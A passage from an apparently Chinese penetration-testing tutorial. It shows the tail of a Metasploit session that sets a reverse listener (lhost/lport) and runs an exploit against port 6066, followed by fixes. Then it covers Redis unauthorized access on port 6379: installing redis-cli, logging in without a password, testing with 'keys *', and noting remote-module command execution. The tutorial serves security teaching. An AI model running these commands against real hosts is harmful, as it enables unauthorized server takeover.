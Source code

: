 msf5>set rport 6066

msf5>set lhost 192.168.100.1

msf5>set lport 4444

msf5>set srvhost 192.168.100.1

msf5>set srvport 8080

msf5>exploit

**![](https://qqq.gtimg.cn/music/photo_new/T053XD000014zSuK4ea3dw.jpg)**

**漏洞修复**

-   对外关闭敏感端口；
-   配置用户权限认证；

参考文章：https://www.cnblogs.com/KevinGeorge/p/10399844.html

## 11.    Redis 未授权访问（6379）

**漏洞简介**

redis是一个数据库，默认端口是6379，redis默认是没有密码验证的，可以免密码登录操作，攻击者可以通过操作redis进一步控制服务器。

Redis未授权访问在4.x/5.0.5以前版本下，可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

**漏洞检测**

-   **端口扫描**
-   **Kali****连接主机**

（1）kali安装redis-cli远程连接工具

wget http://download.redis.io/redis-stable.tar.gz

tar -zxvf redis-stable.tar.gz

cd redis-stable

make

cp src/redis-cli /usr/bin/

redis-cli -h

（2）使用redis-cli命令直接远程免密登录redis主机

redis-cli -h 目标主机IP

![](https://qqq.gtimg.cn/music/photo_new/T053XD000038VlFq0lhJEe.jpg)

（3）尝试keys \* 命令，若存在以下页面，则存在漏洞

![](https://qqq.gtimg.cn/music/photo_new/T053XD00003LBcKr1zxWVN.jpg)

**（4）进一步利用**

**利用redis 可视化工具Another Redis Desktop Manager**
